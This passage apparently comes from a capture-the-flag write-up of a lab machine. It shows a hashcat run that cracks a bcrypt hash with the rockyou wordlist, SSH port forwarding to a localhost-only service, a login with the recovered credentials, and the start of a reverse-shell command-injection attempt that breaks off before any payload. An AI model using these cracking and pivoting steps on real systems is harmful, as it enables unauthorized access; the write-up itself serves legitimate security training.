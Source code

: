 ```bash
$ hashcat -a 0 -m 3200 '$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO' /opt/rockyou.txt --show

$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO:!@#$%^
```

we found a possible credentials : `backrest_root`::`!@#$%^`

#### Forwarding
After discovering that port 9898 was open only on localhost of the target machine, I set up SSH port forwarding to access it remotely.
```sh
$ ssh -L  9898:127.0.0.1:9898 gael@10.10.11.74 -N 
gael@10.10.11.74's password: 
```
we succed to loging using `backrest_root`::`!@#$%^`
![backrest](/images/Artificial/backrestlogin.png)

we try a command inject ti get a reverse shell usind `Add repo` feature: